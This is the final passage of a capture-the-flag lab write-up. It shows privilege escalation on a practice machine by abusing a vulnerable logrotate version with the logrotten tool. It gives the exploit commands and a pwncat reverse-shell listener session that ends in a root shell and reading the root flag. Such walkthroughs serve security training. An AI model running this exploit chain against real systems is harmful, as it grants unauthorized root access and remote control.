 Great!! We have the version `3.15.0`(Vulnerable) and we can read the config file, the `create` argument is in use!

If you don't know how to exploit this vulnerability, [here is a nice explanation about it](https://medium.com/r3d-buck3t/linux-privesc-with-logrotate-utility-219b3aa7476b).

If you don't feel like reading that much, Here is a short summary of what we are going to do:

We will modify the file (`/home/plot_admin/.logs_backup/moodle_access`) so `logrotate` detects this change and we can get our reverse shell! To exploit this, we are going to use [logrotten](https://github.com/whotwagner/logrotten).

_BTW, I created a reverse shell with the name `shell.sh` in the current folder. (Sorry, I forgot the snippet :/)_

```bash
======== Terminal 1 =========
(remote) plot_admin@plotted-lms:/tmp$ cp /home/plot_admin/.logs_backup/02.06.2022 /home/plot_admin/.logs_backup/moodle_access; ./logrotten -p shell.sh /home/plot_admin/.logs_backup/moodle_access
Waiting for rotating /home/plot_admin/.logs_backup/moodle_access...
Renamed /home/plot_admin/.logs_backup with /home/plot_admin/.logs_backup2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

======== Terminal 2 =========
╰─ pwncat-cs -lp 1338                                                                                                                  ─╯
[01:13:10 PM] Welcome to pwncat 🐈!                                                                                        __main__.py:164
[01:13:58 PM] received connection from 10.10.37.208:51952                                                                       bind.py:84
[01:14:00 PM] 10.10.37.208:51952: registered new host w/ db                                                                 manager.py:957
(local) pwncat$ back
(remote) root@plotted-lms:/root# id; whoami;pwd; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
root
/root
Congratulations on completing this room!

flag - 2[REDACTED]2

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms
-sa.infinity8888
```

And we rooted the machine!

That's all from my side, hope you find this helpful!

## Possibles Rabbit Holes (MISC)

